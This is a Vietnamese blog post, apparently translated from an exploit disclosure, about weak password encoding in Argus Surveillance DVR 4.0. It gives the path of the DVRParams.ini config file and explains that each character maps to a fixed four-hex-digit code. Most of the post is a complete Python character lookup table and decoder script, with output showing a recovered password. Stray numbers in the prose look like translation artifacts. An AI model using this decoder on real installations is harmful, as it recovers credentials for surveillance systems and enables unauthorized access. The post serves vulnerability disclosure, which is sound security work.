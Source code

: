 ```yaml
---
title: Bẻ khóa mật khẩu ứng dụng giám sát camera Argus
date: 19/7/2021
layout: single
header:
  teaser: /assets/images/crack.jpg
---
```

## Mô Tả 
Trong một lần gần đây nhất, tôi đã xem `Argus Surveillance DVR 4.0` đang sử dụng mã hóa yếu cho mật khẩu.

+ Phiên bản:  Argus Surveillance DVR 4.0
+ Tác giả: Salman Asad (@deathflash1411)
+ Thử nghiệm: Windows 7 x86 (Build 7601) & Windows 10

## Khai thác  
Argus Surveillance DVR 4.0 đang lưu trữ cấu hình trong một tệp có tên `DVRParams.ini`nằm trong
 `C:\ProgramData\PY_Software\Argus Surveillance DVR`


![location](https://i.imgur.com/KYcjQOM.png)

Đã tạo một tài khoản thử nghiệm với tên người dùng `test` và mật khẩu `test`

![users](https://i.imgur.com/cbwtBsN.png)

Cấu hình đang lưu trữ mật khẩu của người dùng dưới dạng băm


![hash](https://i.imgur.com/d1PnFsd.png)

Một điều thú vị  là bốn ký tự đầu tiên và bốn ký tự cuối cùng trong mã băm giống nhau `E03B` vì mật khẩu của tác giả đã kiểm tra trong đó ký tự đầu tiên và ký tự cuối cùng giống nhau` t`

Điều này xác nhận rằng `t = E03B`, tôi đã giả định rằng mỗi ký tự trong mật khẩu có 4 ký tự trong hàm băm 34

![test](https://i.imgur.com/cZhNqwc.png)

Thật thú vị, hãy đổi mật khẩu thành `1234567890` (10 ký tự)

![change_pass](https://i.imgur.com/trhdvQE.png)

Đây là mật khẩu băm mới trong `DVRParams.ini`

![new_pass](https://i.imgur.com/NM50Tbq.png)

Giả định của tôi là đúng vì hàm băm mật khẩu dài chính xác 40 ký tự (10 * 4) 46

Tương tự, tác giả  đã thay đổi mật khẩu thành `abc ... xyz` và` ABC ... XYZ` và ghi chú lại các giá trị cho từng ký tự

Dựa trên những phát hiện ở trên, tác giả  đã viết một đoạn mã đơn giản để giải mã hàm băm mật khẩu 50

Mã khai thác: [exploits/50130](https://www.exploit-db.com/exploits/50130)

```python
characters = {
'ECB4':'1','B4A1':'2','F539':'3','53D1':'4','894E':'5',
'E155':'6','F446':'7','C48C':'8','8797':'9','BD8F':'0',
'C9F9':'A','60CA':'B','E1B0':'C','FE36':'D','E759':'E',
'E9FA':'F','39CE':'G','B434':'H','5E53':'I','4198':'J',
'8B90':'K','7666':'L','D08F':'M','97C0':'N','D869':'O',
'7357':'P','E24A':'Q','6888':'R','4AC3':'S','BE3D':'T',
'8AC5':'U','6FE0':'V','6069':'W','9AD0':'X','D8E1':'Y','C9C4':'Z',
'F641':'a','6C6A':'b','D9BD':'c','418D':'d','B740':'e',
'E1D0':'f','3CD9':'g','956B':'h','C875':'i','696C':'j',
'906B':'k','3F7E':'l','4D7B':'m','EB60':'n','8998':'o',
'7196':'p','B657':'q','CA79':'r','9083':'s','E03B':'t',
'AAFE':'u','F787':'v','C165':'w','A935':'x','B734':'y','E4BC':'z'}

pass_hash = "418DB740F641E03B956BE1D03F7EF6419083956BECB453D1ECB4ECB4"
if (len(pass_hash)%4) != 0:
    print("[!] Error, check your password hash")
    exit()
split = []
n = 4
for index in range(0, len(pass_hash), n):
    split.append(pass_hash[index : index + n])

for key in split:
    if key in characters.keys():
        print("[+] " + key + ":" + characters[key])
    else:
        print("[-] " + key + ":Unknown")

```
```powershell
#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] 418D:d
[+] B740:e
[+] F641:a
[+] E03B:t
[+] 956B:h
[+] E1D0:f
[+] 3F7E:l
[+] F641:a
[+] 9083:s
[+] 956B:h
[+] ECB4:1
[+] 53D1:4
[+] ECB4:1
[+] ECB4:1

```

Lưu ý: thay thế giá trị của `pass_hash`trong tập lệnh bằng mã băm mật khẩu bạn lấy được từ `DVRParams.in`

## Cảm Ơn :D



